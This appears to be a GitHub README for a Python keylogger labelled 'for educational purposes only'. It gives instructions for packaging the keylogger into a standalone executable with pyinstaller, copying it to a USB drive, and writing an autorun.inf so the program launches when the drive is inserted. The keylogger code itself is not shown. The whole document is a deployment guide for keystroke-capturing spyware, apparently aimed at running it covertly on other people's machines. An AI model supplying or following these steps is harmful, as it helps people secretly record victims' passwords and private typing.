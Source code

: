 # A Simple Key-Logger using Python
**⚠️ WARNING: FOR EDUCATIONAL PURPOSES ONLY! ⚠️** 
 
## Prepare your environment
```
pip install pynput

```
## Package the script as an Executable
```
 pip install pyinstaller
 pyinstaller --onefile keylogger.py
```
&nbsp;
## To make the program run automatically when the USB is inserted

- Copy the executable (`keylogger.exe`) to the USB drive.
- Create an `autorun.inf` file to make the program run automatically when the USB is inserted (on older versions of Windows).  
  **Note:** Newer systems often disable autorun for security reasons.

### Example `autorun.inf`:
```
[autorun]
open=keylogger.exe
action=Run Keylogger
icon=icon.ico
```
&nbsp;
+ This will generate a (keylogger.exe).
+ Make sure to run these command in your VS code Terminal.
+ Once you ran these commands in your terminal it will generate a (keylogger.exe) inside your dist file.
+ You need to copy only that (keylogger.exe) in to your USB and once the USB plugged in, you need to open the (keylogger.exe) manually.
+ This doesn't work on Windows 11 when the USB plugged in because of the Windows Saftey
